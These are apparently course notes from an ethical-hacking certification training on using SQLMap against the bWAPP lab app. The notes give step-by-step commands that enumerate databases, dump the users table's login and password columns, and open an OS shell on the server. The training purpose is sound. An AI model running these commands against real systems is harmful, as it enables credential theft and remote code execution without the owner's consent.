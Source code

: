     Filename: eccouncil-ceh31250-v11-15-5-1-sqlmap.md
    Show Name: CEHv11 (312-50)
    Topic Name: Web Application Hacking: SQL Injection
    Episode Name: SQLMap ================================================================================

SQLMap
Objectives:

    Utilize SQLmap to perform SQL Injection testing and command execution

    Doing this manually is great, but are there tools available to help us automate this process?
        Yes. Do a google search for sqli tools
            SQLMap is our go-to

    OK so we've got SQLMap, but how do we release it upon our target?
        INJECTION TESTING
            Gathering commonly needed elements
                Cookies
                POST data (if data not in URL)
            sqlmap --url="http://bee-box/bWAPP/slqi_1.php?title=iron" --dbs
                --dbs info is found using the -hh option of sqlmap
                Add --cookie="security_level=0;PHPSESSID=xxxxxx"
                    the bwapp app requires it
                If POST then add --data="title=iron&action=search"
                    Input data and parameters are usually found in the request BODY

    So we have a good injection point and even enumerated the name of the database, but how do we get at the data?
        Enumerate the Table names
            sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --tables
        Enumerate Columns
            sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users --columns
        Dump database data from table 'users' from columns 'login' and 'password'
            sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users -C login,password --dump

    Any other useful tricks?
        How about COMMAND EXECUTION?
            sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --os-shell
                PHP shell, since this is a PHP app
                Custom web root (/var/www/bWAPP/documents/)
